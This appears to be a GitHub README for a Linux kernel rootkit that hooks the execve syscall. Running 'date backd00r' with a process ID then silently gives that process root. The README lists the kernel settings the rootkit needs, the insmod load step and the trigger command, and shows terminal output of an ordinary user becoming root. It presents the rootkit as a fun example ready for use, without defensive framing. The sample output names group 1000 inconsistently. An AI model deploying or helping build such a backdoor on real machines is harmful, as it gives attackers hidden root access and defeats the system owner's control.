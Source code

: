 # Syscall hook rootkit for the Linux Kernel
This is a fun example of what can be done using Linux kernel modules.

It hooks the `execve` syscall and waits for `date` to be executed with the `backd00r` argument followd by a PID number to elevate to root. It attaches new root credentials to the process pointed by PID.

Tested with kernel 5.6.6.

## Requirements
- Linux Kernel (tested with 5.6).
- `CONFIG_KALLSYMS_ALL=y` flag should be enabled to access the syscall table.
- Kernel modules enables and signature not enforced (default).
- No LSM enabled, typically Lockdown's integrity mode disables kernel modules.

## Usage
Once the module is installed, as a regular user:
`> date backd00r [PID]`

## Example
As root:
```sh
> insmod syscall_hook_rootkit.ko
[   13.668245] syscall_hook_rootkit: loading out-of-tree module taints kernel.
[   13.669009] syscall_hook_rootkit: module verification failed: signature and/or required key missing - tainting kl
[   13.674155] All lights are green...
```

As a regular user (`$$` returns the current process' PID):
```sh
> id
uid=1000(bob) gid=1000(bob) groups=1000(bob)

> date backd00r $$
[  17.343304] SECRET: making PID 1341 root!
date: extra operand '1341'
Try 'date --help' for more information.

> id 
uid=0(root) gid=0(root) groups=0(root),1000(kltx)
```
